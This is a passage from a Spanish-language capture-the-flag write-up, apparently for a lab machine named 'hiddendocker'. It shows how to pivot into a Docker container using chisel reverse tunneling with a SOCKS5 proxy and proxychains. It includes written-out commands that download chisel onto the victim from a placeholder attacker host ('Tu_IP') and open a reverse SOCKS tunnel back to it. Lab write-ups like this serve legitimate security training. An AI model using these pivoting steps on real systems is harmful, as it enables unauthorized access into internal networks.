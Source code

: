 Funciona bien.

<br>

<h3 id="Tunneling">Aplicando Reverse Tunneling con SOCKS Proxy para Alcanzar Contenedor de Docker</h3>

Primero, vamos a ejecutar **chisel** en nuestra máquina como servidor y eligiendo un puerto para el **Tunneling**:
```bash
./chisel server --reverse -p 1234
2025/06/21 13:42:21 server: Reverse tunnelling enabled
2025/06/21 13:42:21 server: Fingerprint bwWRGzJE....
2025/06/21 13:42:21 server: Listening on http://0.0.0.0:1234
```

Abre un servidor con **Python**:
```bash
python3 -m http.server 80
```

Descarga **chisel** en la máquina víctima:
```bash
pepinodemar@hiddendocker:~$ wget http://Tu_IP/chisel
```

Digamos que por X o Y motivo, no sabes qué puertos tiene activo el contenedor/máquina; en ese caso, vamos a aplicar **Tunneling con SOCKS Proxy**.

Para esto, debemos revisar qué versión de **SOCKS** tenemos instalada, que lo comprobamos si tenemos el archivo `/etc/proxychains.conf` o `/etc/proxychains4.conf`:
```bash
locate proxychains
/etc/proxychains4.conf
```
En mi caso, tengo el archivo `/etc/proxychains4.conf`.

Ahí mismo, veremos qué versión de **SOCKS** tenemos, pues se ve al final del archivo:
```bash
cat /etc/proxychains4.conf | tail -n 4
# defaults set to "tor"
socks4 	127.0.0.1 9050
```
Vemos que tengo el **SOCKS4**.

Modifiquémoslo cambiando **socks4** por **socks5** y cambiamos el puerto a **1080**:
```bash
cat /etc/proxychains4.conf | tail -n 4
# defaults set to "tor"
#socks4  127.0.0.1 9050
socks5	 127.0.0.1 1080
```
Esto lo hacemos porque **chisel** funciona con esa versión de **SOCKS** y ese puerto.

Con esto listo, utilizamos **chisel** como cliente en la máquina víctima para conectarse a nuestro servidor de **chisel**:
```bash
pepinodemar@hiddendocker:~$ ./chisel client Tu_IP:1234 R:socks
2025/06/21 22:30:08 client: Connecting to ws://Tu_IP:1234
2025/06/21 22:30:08 client: Connected (Latency 1.293463ms)
```
Lo único que cambia, es que indicamos que se utilizará **SOCKS**.
